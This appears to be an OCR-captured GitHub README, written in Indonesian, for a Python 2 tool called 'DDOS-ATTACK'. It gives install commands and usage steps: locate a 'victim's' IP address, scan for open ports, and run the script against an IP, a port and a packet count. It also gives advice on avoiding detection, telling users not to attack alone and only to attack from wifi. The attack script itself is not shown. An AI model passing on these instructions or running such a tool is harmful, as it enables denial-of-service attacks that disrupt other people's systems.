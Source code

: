 ##############################################
#              DDOS-ATTACK                   #
#           Mr.scriptkiddie004               #
#               ----------                   #
#               Army Beast                   #
##############################################

#install
git clone https://github.com/Bangsatlu/DDOS-ATTACK
cd DDOS-ATTACK
chmod +x attack.py
python2 attack.py

NB:Sebelum menggunakan Tool ini sebaiknya cari dulu alamat IP Korban dan scan dimana port yang terbuka

lalu ketikkan:
python2 attack.py ip port packet

contoh:
python2 attack.py 192.168.xx.xx 80 100000


INGAT!! JANGAN MELAKUKAN SERANGAN DDOS TANPA MENGGUNAKAN JARINGAN WIFI DAN SEBAIKNYA JANGAN MELAKUKAN SERANGAN SENDIRIAN!!!!
